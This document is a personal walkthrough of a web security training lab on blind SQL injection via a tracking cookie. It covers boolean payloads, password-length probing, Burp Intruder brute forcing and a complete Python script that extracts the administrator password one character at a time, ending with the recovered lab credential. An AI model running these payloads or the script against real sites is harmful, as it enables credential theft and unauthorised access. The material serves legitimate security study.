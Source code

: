 This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

---

**Analysis:**

- Vulnerable tracking cookie allows blind sql

```php
Cookie: TrackingId=C7OsmtK99h9qX1n1' and 1=1--
```

```php
Cookie: TrackingId=C7OsmtK99h9qX1n1'+and+1%3d1--;
```

- When i use `1=1` i get a welcome back message, but `1=2` does not give me the message.
- I can use this information to ask if there is a users table.

>select tracking-id from tracking-table where trackingId = 'C7OsmtK99h9qX1n1' and (select 'x' from users LIMIT 1)='x'--'

For every user in the database, print `x`, but limit that to 1 so i don't break the query. 

```php
' and (SELECT 'x' FROM users LIMIT 1)='x'--
```

- This gives me a welcome back message which indicates there is a users table.

> select tracking-id from tracking-table where trackingId = 'C7OsmtK99h9qX1n1' and (select username from users WHERE username='administrator')='administrator'--'

This query,  if it's correct, should evaluate to **TRUE** giving me the welcome back message.

```php
' and (SELECT username FROM users WHERE username='administrator')='administrator'--
```

**Enumerate Password:**

I need to ask the application:

- Is this the first letter of the password `a?`
- Then use the welcome back messages to verify if the letter is in the password.

Verify password length:

```php
' and (SELECT username FROM users WHERE username='administrator' AND LENGTH(password)>1)='administrator'--
```

- I'll modify `>1` to determine the size of the password.

> 20 character password

If the password is not bigger than 20 characters, then it must be 20 characters long.

**Check what the password characters are:**

```php
' and (SELECT substring(password,1,1) FROM users WHERE username='administrator')='a'--
```

- This will check the if the first character is an `a`

Using burp intruder i add a simple character list (brute forcer) and check for the first letter:

![[Pasted image 20240902082543.png]]

- This returns the result `5` which is the first character of the password.

I can now modify this to find the whole password by changing the substring character and the payload for the actual password.

**Cluster bomb attack**

- Payload 1: brute-forcer character list 
- Payload 2: numbers 1-20

`substring(password,1,1)`
`substring(password,2,1)`
`substring(password,3,1)`
`etc...`

All i need to do now is wait for burp to finish, which is quite the task with community edition, and then match up the password with the correct positions: 1,2,3,4,5, etc...

I skipped waiting for burp community. Waiting for 720 attempts to finish would be too long, so i went straight to making the python script below.

---

**Script:**

```python
#!/usr/bin/python3

import sys
import requests
import urllib3
import urllib

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def sqli_password(url):
    password_extracted = ""
    for i in range(1,21):
        for j in range(32,126):
            sqli_payload = "' and (select ascii(substring(password,%s,1)) from users where username='administrator')='%s'--" % (i,j)
            sqli_payload_encoded = urllib.parse.quote(sqli_payload)
            cookies = {'TrackingId': 'C7OsmtK99h9qX1n1' + sqli_payload_encoded, 'session': 'UBE2KzLkUaCcjyqYEWmJkVmTy0kp6z2q'}
            r = requests.get(url, cookies=cookies, verify=False, proxies=proxies)
            if "Welcome" not in r.text:
                sys.stdout.write('\r' + password_extracted + chr(j))
                sys.stdout.flush()
            else:
                password_extracted += chr(j)
                sys.stdout.write('\r' + password_extracted)
                sys.stdout.flush()
                break

def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])

    url = sys.argv[1]
    print("(+) Retrieving administrator password...")
    sqli_password(url)

if __name__ == "__main__":
    main()
```

- Replace cookies with your own if you use this script, both `tracking id:` and `session:` should be changed to the ones it gives you in burpsuite, or cookie editor etc. 

administrator:5ki0pp74gmdyvvpxj1ps

![[Pasted image 20240902084917.png]]

